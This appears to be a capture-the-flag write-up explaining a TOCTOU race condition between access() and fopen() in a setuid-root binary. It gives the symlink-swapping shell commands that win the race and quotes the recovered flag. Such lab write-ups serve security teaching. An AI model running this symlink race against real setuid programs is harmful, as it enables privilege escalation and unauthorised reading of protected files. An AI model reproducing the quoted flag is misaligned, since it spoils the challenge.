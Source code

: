# Challenge `I challenge you for a race` Writeup

- Vulnerability: 
  - Time-of-check Time-of-use / Race condition
- Where:
  - `access` and `fopen` functions
- Impact:
  - allows access to protected files

## Analyzing the server

This challenge consists in accessing a protected file named flag.
The server has a folder `challenge` with the following files:
- `flag` - the flag
- `challenge` - the read_file.c compiled
- `Makefile` - the Makefile used to compile the challenge
- `read_file.c` - the source code of the challenge  

The binary receives a file name as input and uses the `access` function to checks if the user has access to the file (using the real UID).  
If it does, prints the content to the stdout using the `fopen` function to open the file (by verifying the permissions with the effective UID).   
Notice that the challenge file has the `S bit` set, meaning that the file runs with the permissions of the owner, which is root.

## Exploit

Start by creating a dummy file and a symbolic link to this file.
```bash
touch dummy
ln -sf dummy not_flag
```
Then, call the binary with this symbolic link by using `echo` and pipes
At the same time, using fork, create a symbolic link to the flag file with the same name as the symbolic link previously created.
```bash
echo "/tmp/95562/not_flag" | /challenge/challenge &  
ln -sf /challenge/flag not_flag
```
If the timing is right, the `access` function will return true then we change the link to the flag file and `fopen` will read it and reveal the flag `SSof{Time_of_Check_Time_of_Use_or_tuctuc_racing}`.
This works because `fopen` uses the effective UID (which is root because of the `S bit` in the binary) to check the permissions of the file, while `access` uses the real UID.

## Implementation

These code snippets and full implementation can be found [here](i_challenge_you_for_a_race.sh).